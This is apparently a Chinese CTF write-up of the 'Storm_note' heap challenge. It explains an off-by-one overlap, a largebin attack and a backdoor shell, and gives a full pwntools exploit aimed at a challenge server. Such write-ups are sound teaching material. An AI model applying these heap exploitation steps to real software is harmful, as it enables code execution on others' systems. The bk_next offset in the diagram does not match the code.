

## 0x00 程序分析

```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

程序留了一个后门函数

```c
void __noreturn backdoor()
{
  char buf; // [rsp+0h] [rbp-40h]
  unsigned __int64 v1; // [rsp+38h] [rbp-8h]

  v1 = __readfsqword(0x28u);
  puts("If you can open the lock, I will let you in");
  read(0, &buf, 0x30uLL);
  if ( !memcmp(&buf, (const void *)0xABCD0100LL, 0x30uLL) )
    system("/bin/sh");
  exit(0);
}
```

通过输入0xabcd0100内存中的数据，可以直接获得shell

而该内存区域的数据由随机数生成，大小为0x30

```c
ssize_t init_proc()
{
  ssize_t result; // rax
  int fd; // [rsp+Ch] [rbp-4h]

  setbuf(stdin, 0LL);
  setbuf(stdout, 0LL);
  setbuf(stderr, 0LL);
  if ( !mallopt(1, 0) )
    exit(-1);
  if ( mmap((void *)0xABCD0000LL, 0x1000uLL, 3, 34, -1, 0LL) != (void *)2882338816LL )
    exit(-1);
  fd = open("/dev/urandom", 0);
  if ( fd < 0 )
    exit(-1);
  result = read(fd, (void *)0xABCD0100LL, 0x30uLL);
  if ( result != 48 )
    exit(-1);
  return result;
}
```

而且`mallopt(1, 0)`禁用了fastbin。

通过分析程序，整个程序就一个offbyone漏洞，可以多溢出一个\x00。

```c
unsigned __int64 edit_note()
{
  int v1; // [rsp+0h] [rbp-10h]
  int v2; // [rsp+4h] [rbp-Ch]
  unsigned __int64 v3; // [rsp+8h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  puts("Index ?");
  _isoc99_scanf("%d", &v1);
  if ( v1 >= 0 && v1 <= 15 && note[v1] )
  {
    puts("Content: ");
    v2 = read(0, note[v1], note_size[v1]);
    *((_BYTE *)note[v1] + v2) = 0;//offbyone
    puts("Done");
  }
  else
  {
    puts("Invalid index");
  }
  return __readfsqword(0x28u) ^ v3;
}
```


## 0x01 利用思路

### 1 堆重叠

因为程序存在offbyone，所以可以将下一个chunk的P标志位覆盖为0，接着触发unlink，利用glibc的边界标记法，实现堆重叠。堆重叠的效果就是两个chunk的内存区域重叠，因为程序不存在UAF，所以可以利用堆重叠，通过未被释放的chunk对已经被释放的内存区域写数据。写的内容可以为unsortedbin chunk的fd、bk指针，largebin chunk的fd、bk、fd_next、bk_next指针。

### 1 构造堆重叠

```python
	add(0x28)#0
	add(0x528)#1	
	add(0xf8)#2
	add(0x28)#3

	add(0x28)#4
	add(0x518)#5
	add(0xf8)#6
	add(0x28)#7
```

首先创建了8个chunk，分别构造两个堆重叠

```python
	delete(0)
	payload = 'a'*0x520 + p64(0x560)
	edit(1,payload)#alter the P bit of chunk2
	delete(2)
```

向chunk1中写数据，将chunk2的prev_size域写为`0x560`，因为在被使用的chunk中，prev_size域可以存储前一个chunk的data的。原本chunk2的size域为`0x101`，因为一个字节的溢出，被修改为了`0x100`，当我们释放chunk2时，因为chunk2的P标志位为0，所以glibc认为前一个chunk为free状态，触发向后合并，根据glibc的边界标记法，通过chunk2的prev_size域寻找上一个chunk的地址，因为prev_size被我们覆盖成了`0x560`，所以触发了unlink(chunk0)，最后得到了一个大小为 chunk0 + chunk1 + chunk2 (0x660) 的unsortedbin chunk。

```python
	add(0x38)#0
	add(0x610)#2
```

此时我们再次申请堆内存，就可以实现chunk2和chunk1的堆内存区域重叠，这样当我们释放chunk2后，就可以通过chunk1修改chunk2的内容。


同样的我们再次执行上述操作，实现通过chunk5，修改chunk6的内存区域。

### 2 largebin attack

首先通过堆的分配机制，将chunk2变成unsortedbin chunk，将chunk6变成largebin chunk。

```python
	edit(5,p64(0)+p64(0x611)+p64(0)+p64(0xABCD0100-0x20+8)+p64(0)+p64(0xABCD0100-0x38-5))
	edit(1,p64(0)+p64(0x621)+p64(0)+p64(0xABCD0100-0x20))
```

我们首先通过chunk1和chunk5，将unsortedbin chunk和largebin chunk构造成如下形式

```
+-----------------+
|  		  0         |  #unsortedbin chunk (freed chunk2)
+-----------------+
|      0x621 	  	|  
+-----------------+
|        0        |  # fd
+-----------------+
| 0xabcd0100-0x20 |  # bk
+-----------------+

+-------------------+
|  		  0           |  #largebin chunk (freed chunk6)
+-------------------+
|      0x611 	    	|  
+-------------------+
|        0          |  # fd
+-------------------+
| 0xabcd0100-0x20+8 |  # bk
+-------------------+
|        0          |  # fd_next
+-------------------+
| 0xabcd0100-0x38+5 |  # bk_next
+-------------------+
```

当申请堆内存时，如果申请流程走到unsortedbin，glibc会把unsortedbin中的chunk按其大小分配到smallbins和largebins。当我们申请堆`add(0x48)`时，unsortedbin的chunk大小为0x621，不符合，就会将当前unsortedbin的chunk按大小分配到largebins，分配过程有如下指针操作

```c
                          else // 如果大于，则还需要修改nextsize
                            {
                              victim->fd_nextsize = fwd;
                              victim->bk_nextsize = fwd->bk_nextsize;
                              fwd->bk_nextsize = victim;
                              victim->bk_nextsize->fd_nextsize = victim;
                            }
                          bck = fwd->bk;
                        }
                    }
                  else // 为空的情况
                    victim->fd_nextsize = victim->bk_nextsize = victim;
                }
    					// 如果victim是smallbin或者是largebin但是对应链表为空的话，则将victim插入到该链表的第一个
    					// 总之是插入到bck与fwd之间
        			mark_bin (av, victim_index); // 首先标记对应链表不为空了
          		victim->bk = bck; // 将victim插入到链表，作为第一个bin
            	victim->fd = fwd;
              fwd->bk = victim;
              bck->fd = victim;
```

指针操作会将0xabcd0100-0x18处修改为0x56，即把0xabcd0100-0x20构造成一个fakechunk。插入到largebin后，glibc根据unsortedbin chunk的bk指针，找到0xabcd0100-0x20，发现其大小为0x56，且ISMMAP位为1，就将其分配出去，于是就获得了包含0xabcd0100的fakechunk。就可以覆盖掉原来的随机数。

### 3 触发后门函数，getshell


## 0x02 EXP


```python
#usr/bin/env python
from pwn import *
REMOTE = 1
if REMOTE:
	p = remote('61.164.47.198',10004)
else:
	p = process('./Storm_note')

DEBUG = 0
VERBOSE = 1
if DEBUG:
	gdb.attach(p)
if VERBOSE:
	context.log_level = 'debug'

def q():
	gdb.attach(p)
	raw_input('test')

def add(size):
	p.recvuntil('Choice')
	p.sendline('1')
	p.recvuntil('?')
	p.sendline(str(size))
  
def edit(idx,mes):
	p.recvuntil('Choice')
	p.sendline('2')
 	p.recvuntil('?')
	p.sendline(str(idx))
	p.recvuntil('Content')
	p.send(mes)

def delete(idx):
	p.recvuntil('Choice')
	p.sendline('3')
 	p.recvuntil('?')
 	p.sendline(str(idx))

def pwn():

	add(0x28)#0
	add(0x528)#1	
	add(0xf8)#2
	add(0x28)#3

	add(0x28)#4
	add(0x518)#5
	add(0xf8)#6
	add(0x28)#7

	delete(0)
	payload = 'a'*0x520 + p64(0x560)
	edit(1,payload)#alter the P bit of chunk2
	delete(2)#trigger unlink(chunk0)	
	add(0x38)#0
	add(0x610)#2  chunk1 is overlaped by chunk2, write chunk1 can also write chunk2
	
	delete(4)
	payload = 'a'*0x510 + p64(0x550)
	edit(5,payload)#alter the P bit of chunk6
	delete(6)
	add(0x38)#4
	add(0x600)#6	chunk5 is overlaped by chunk6, write chunk5 can also write chunk6

	delete(6)#0x610	
	delete(2)#0x620
	
	add(0x610)#2    #chunk6 => largebins
	delete(2)	#chunk2 => unsortedbin
	edit(5,p64(0)+p64(0x611)+p64(0)+p64(0xABCD0100-0x20+8)+p64(0)+p64(0xABCD0100-0x38-5))
	edit(1,p64(0)+p64(0x621)+p64(0)+p64(0xABCD0100-0x20))
	add(0x48)
	edit(2,p64(0)*2+'A'*0x30)	
	p.sendlineafter('Choice: ','666')
	p.sendlineafter('If you can open the lock, I will let you in','A'*0x30)	
	p.interactive()
if __name__ == '__main__':
	pwn()
```


## 0x03 利用分析

### 2 largebin attack

首先通过堆的分配机制，将chunk2变成unsortedbin chunk，将chunk6变成largebin chunk。

```python
	edit(5,p64(0)+p64(0x611)+p64(0)+p64(0xABCD0100-0x20+8)+p64(0)+p64(0xABCD0100-0x38-5))
	edit(1,p64(0)+p64(0x621)+p64(0)+p64(0xABCD0100-0x20))
```

我们首先通过chunk1和chunk5，将unsortedbin chunk和largebin chunk构造成如下形式

```
+-----------------+
|  		  0         |  #unsortedbin chunk (freed chunk2)
+-----------------+
|      0x621 	  	|  
+-----------------+
|        0        |  # fd
+-----------------+
| 0xabcd0100-0x20 |  # bk
+-----------------+

+-------------------+
|  		  0           |  #largebin chunk (freed chunk6)
+-------------------+
|      0x611 	    	|  
+-------------------+
|        0          |  # fd
+-------------------+
| 0xabcd0100-0x20+8 |  # bk
+-------------------+
|        0          |  # fd_next
+-------------------+
| 0xabcd0100-0x38+5 |  # bk_next
+-------------------+
```

当我们申请堆`add(0x48)`时，unsortedbin的chunk大小为0x621，不符合，就会将当前unsortedbin的chunk按大小分配到largebin，通过分配过程中的指针操作，会将0xabcd0100-0x18处修改为0x56，即把0xabcd0100-0x20构造成一个fakechunk。插入到largebin后，glibc根据unsortedbin chunk的bk指针，找到0xabcd0100-0x20，发现其大小为0x56，且ISMMAP位为1，就将其分配出去，于是就获得了包含0xabcd0100的fakechunk。就可以覆盖其内存了。

